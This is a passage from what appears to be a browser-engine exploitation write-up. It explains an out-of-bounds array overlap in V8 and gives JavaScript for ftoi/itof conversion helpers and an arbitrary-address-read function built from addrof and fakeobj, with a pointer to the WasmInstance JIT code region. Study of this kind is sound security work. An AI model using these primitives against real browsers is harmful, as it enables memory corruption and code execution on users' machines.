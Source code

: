 

<br><br><br>


If you look at the picture, it is the oob_aar field. Since oob_aar is a double type, it takes up 1 index per 8 bytes. <br>
So, if you check the value of oob_aar[4], you can see that the elements_field of object_aar, that is, the value of obj[0], overlaps.  <br>

So obj_arr[0] = oob_arr[4].

At this time, if you perform an and operation between this value and 0xffffffff, the value & 00000000ffffffffn is actually calculated, which becomes the address value of the object. 
You can get it.  <br>

Briefly explain ftoi and itof that appear here.


<br><br><br>

```js
let fi_buf = new ArrayBuffer(8);  // shared buffer
let f_buf = new Float64Array(fi_buf);  // buffer for float
let i_buf = new BigUint64Array(fi_buf);  // buffer for bigint

// convert float to bigint
function ftoi(f) {
    f_buf[0] = f;
    return i_buf[0];
}

// convert bigint to float
function itof(i) {
    i_buf[0] = i;
    return f_buf[0];
}
```

<br><br><br>


They both point to the same buffer, and the difference is whether the buffer value is read in float type or int type. <br>
Then you can proceed with the type conversion you want.  <br>


When you go through addrof(WasmInstance), the address value of WasmInstance is entered. At this time, 0x68 is added <br>
It points to the area containing JIT code.  <br>

At this time, it moves on to the aar() function.

<br><br><br>

```js
// arbitrary address read
function aar(addr) {
    let elements = addr - 8n;  // elements pointer
    let length = 2n;  // length is 1
    let float_arr_struct = [0.1, 0.2];  // fake float array structure
    float_arr_struct[0] = itof(float_arr_map);
    float_arr_struct[1] = itof((length << 32n) | elements);
    let fake = fakeobj(addrof(float_arr_struct) - 0x10n);  // fake float array
    return ftoi(fake[0]);
}
```
<br><br><br>
